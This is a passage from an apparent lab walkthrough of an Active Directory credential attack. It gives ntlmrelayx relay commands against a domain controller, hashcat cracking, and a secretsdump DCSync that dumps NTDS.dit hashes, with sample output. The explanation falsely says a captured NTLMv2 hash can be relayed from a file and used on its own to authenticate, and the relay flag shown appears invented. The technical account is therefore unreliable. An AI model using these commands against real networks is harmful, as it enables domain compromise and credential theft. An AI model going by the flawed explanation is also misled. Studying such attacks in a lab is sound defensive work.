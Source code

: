     ```
    
    _Look for recovered plaintext passwords._
    
5.  **Relay valid credentials**
    
    ```bash
    ntlmrelayx.py -t ldap://dc1.lab.local --escalate-method drsuapi
    
    ```
    
    _Explanation:_ ntlmrelayx takes the captured NTLMv2 hash from `captured.hash` and uses it to perform SMB or LDAP authentication to the target (dc1.lab.local). When relaying to LDAP with the DRSUAPI interface, it effectively logs in as the original user (whose hash you captured) without needing the plaintext password. The DC sees an authenticated session and grants replication rights if that user has them, enabling a DCSync.
    
    _Details of credential usage:_
    
    -   The relay tool uses the NTLMv2 hash as proof of knowledge of the password, performing the NTLM protocol handshake with the DC.
        
    -   No plaintext password is required; the hash itself is sufficient for authentication.
        
    
    _Look for:_
    
    ```text
    [+] Accepting connection from 10.0.0.5, relaying to ldap://dc1.lab.local
    [+] Authenticating as UserA using NTLMv2 hash
    [+] DRSUAPI may be used to replicate directory
    [+] Dumping credentials for domain: lab.local
    
    ```
    

----------

### Expected Result

-   A file `captured.hash` containing NTLMv2 hashes.
    
-   **Hashcat** outputs plaintext credentials, e.g., `UserA:Password123`.
    
-   **ntlmrelayx.py** shows messages like:
    
    ```text
    [+] DRSUAPI may be used to replicate directory
    [+] Dumping credentials for domain: lab.local
    
    ```
    
-   **secretsdump.py** execution dumps NTDS.dit hashes, for example:
    
    ```bash
    secretsdump.py -just-dc lab.local/attacker@dc1.lab.local
    
    ```
    
    ```text
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:1122334455...
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5566778899...
    
